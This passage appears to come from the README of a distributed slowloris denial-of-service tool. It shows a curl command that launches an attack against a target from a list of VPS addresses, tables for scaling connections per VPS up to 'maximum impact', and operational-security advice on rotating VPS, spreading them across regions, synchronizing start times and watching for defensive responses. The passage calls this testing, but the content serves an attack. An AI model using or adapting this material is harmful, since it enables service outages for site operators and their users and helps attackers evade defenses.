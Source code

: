 ```bash
# Launch attack via API (if implemented)
curl -X POST http://localhost:5000/api/attack \
  -H "Content-Type: application/json" \
  -d '{
    "target": "http://test-server.local",
    "type": "slowloris",
    "vps_list": ["1.2.3.4", "5.6.7.8"],
    "connections": 1000,
    "duration": 300
  }'
```

## 📊 **Performance Optimization**

### **VPS Selection Strategy**
```
Small Test (1-3 VPS):
- 500-1500 connections per VPS
- 15-25 second delays
- Good for initial testing

Medium Attack (5-10 VPS):
- 1000-3000 connections per VPS
- 10-20 second delays
- Effective against most targets

Large Scale (10+ VPS):
- 2000-5000 connections per VPS
- 5-15 second delays
- Maximum impact testing
```

### **Resource Management**
```
VPS Specifications:
1 CPU, 1GB RAM    → 500-1000 connections
2 CPU, 2GB RAM    → 1000-2500 connections
4 CPU, 4GB RAM    → 2500-5000 connections
```

### **Network Considerations**
- **Geographic Distribution**: Spread VPS across regions
- **Connection Limits**: Monitor per-IP connection limits
- **Bandwidth Usage**: Slow attacks use minimal bandwidth
- **Timing Coordination**: Synchronize attack start times

## 🛡️ **Best Practices**

### **Operational Security**
1. **VPS Management**:
   - Use dedicated testing VPS only
   - Rotate VPS regularly
   - Monitor for defensive responses
